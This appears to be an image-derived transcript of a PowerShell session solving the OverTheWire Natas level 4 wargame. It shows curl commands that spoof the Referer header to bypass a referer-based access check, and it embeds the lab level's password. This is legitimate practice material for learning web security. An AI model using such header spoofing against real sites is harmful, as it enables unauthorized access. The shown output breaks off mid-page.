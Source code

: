 ```
PS C:\> curl -Headers "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org
curl: (3) URL rejected: Malformed input to a URL function
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>

PS C:\> curl -h "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org      
Usage: curl [options...] <url>
Unknown category provided, here is a list of all categories:

 auth        Authentication methods
 connection  Manage connections
 curl        The command line tool itself
 deprecated  Legacy
 dns         Names and resolving
 file        FILE protocol
 ftp         FTP protocol
 global      Global options
 http        HTTP and HTTPS protocol
 imap        IMAP protocol
 ldap        LDAP protocol
 output      Filesystem output
 pop3        POP3 protocol
 post        HTTP POST specific
 proxy       Options for proxies
 scp         SCP protocol
 sftp        SFTP protocol
 smtp        SMTP protocol
 ssh         SSH protocol
 telnet      TELNET protocol
 tftp        TFTP protocol
 timeout     Timeouts and delays
 tls         TLS/SSL related
 upload      Upload, sending data
 verbose     Tracing, logging etc

PS C:\> curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
```